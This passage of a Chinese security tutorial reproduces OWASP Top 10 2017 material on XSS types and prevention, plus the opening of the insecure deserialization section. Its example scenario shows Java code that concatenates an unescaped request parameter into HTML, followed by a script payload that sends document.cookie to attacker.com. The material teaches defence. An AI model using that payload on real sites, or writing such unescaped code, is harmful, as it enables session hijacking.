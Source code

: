 #### [#](https://pdai.tech/md/develop/security/dev-security-x-owasp.html#知识点简介-6)知识点简介

存在三种XSS类型，通常针对用户的浏览器：

- **反射式XSS**：应用程序或API包括未经验证和未经转义的用户输入，作为HTML输出的一部分。一个成功的攻击可以让攻击者在受害者的浏览器中执行任意的HTML和JavaScript。 通常，用户将需要与指向攻击者控制页面的某些恶意链接进行交互，例如恶意漏洞网站，广告或类似内容。
- **存储式XSS**：你的应用或者API将未净化的用户输入存储下来了，并在后期在其他用户或者管理员的页面展示出来。 存储型XSS一般被认为是高危或严重的风险。
- **基于DOM的XSS**：会动态的将攻击者可控的内容加入页面的JavaScript框架、单页面程序或API存在这种类型的漏洞。理想的来说，你应该避免将攻击者可控的数据发送给不安全的JavaScriptAPI。

典型的XSS攻击可导致盗取session、账户、绕过MFA、DIV替换、对用户浏览器的攻击（例如：恶意软件下载、键盘记录）以及其他用户侧的攻击。

#### [#](https://pdai.tech/md/develop/security/dev-security-x-owasp.html#案例场景-6)案例场景

场景#1：应用程序在下面HTML代码段的构造中使用未经验证或转义的不可信的数据：

```java
(String) page += "<input name='creditcard' type='TEXT‘
value='" + request.getParameter("CC“) + "'>";
```

攻击者在浏览器中修改“CC” 参数为如下值：

```html
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

这个攻击导致受害者的会话ID被发送到攻击者的网站，使得攻击者能够劫持用户当前会话。

注意：攻击者同样能使用跨站脚本攻破应用程序可能使用的任何跨站请求伪造（CSRF）防御机制。CSRF的详细情况见2013年版中的A8项。

#### [#](https://pdai.tech/md/develop/security/dev-security-x-owasp.html#如何防止-6)如何防止?

防止XSS需要将不可信数据与动态的浏览器内容区分开。这可以通过如下步骤实现：

- 使用设计上就会自动编码来解决XSS问题的框架，如：Ruby 3.0或 React JS。了解每个框架的XSS保护的局限性，并适当地处理未覆盖的用例。
- 为了避免反射式或存储式的XSS漏洞，最好的办法是根据HTML输出的上下文（包括：主体、属性、JavaScript、CSS或URL）对所有不可信的HTTP请求数据进行恰当的转义 。更多关于数据转义技术的信息见：[《OWASP Cheat Sheet ‘XSS Prevention’》](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)。
- 在客户端修改浏览器文档时，为了避免DOM XSS攻击，最好的选择是实施上下文敏感数据编码。如果这种情况不能避免，可以采用[《OWASP Cheat Sheet ‘DOM based XSS Prevention ‘》](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)描述的类似上下文敏感的转义技术应用于浏览器API。
- 使用内容安全策略（[CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)）是对抗XSS的深度防御策略。如果不存在可以通过本地文件放置恶意代码的其他漏洞（例如：路径遍历覆盖和允许在网络中传输的易受攻击的库），则该策略是有效的。

### A8:2017 – 不安全的反序列化

> 不安全的反序列化会导致远程代码执行。即使反序列化缺陷不会导致远程代码执行，攻击者也可以利用它们来执行攻击，包括：重播攻击、注入攻击和特权升级攻击。

#### 知识点简介

如果反序列化进攻者提供的敌意或者篡改过的对象将会使将应用程序和API变的脆弱。这可能导致两种主要类型的攻击：

- 如果应用中存在可以在反序列化过程中或者之后被改变行为的类，则攻击者可以通过改变应用逻辑或者实现远程代码执行攻击。我们将其称为对象和数据结构攻击。
- 典型的数据篡改攻击，如访问控制相关的攻击，其中使用了现有的数据结构，但内容发生了变化。
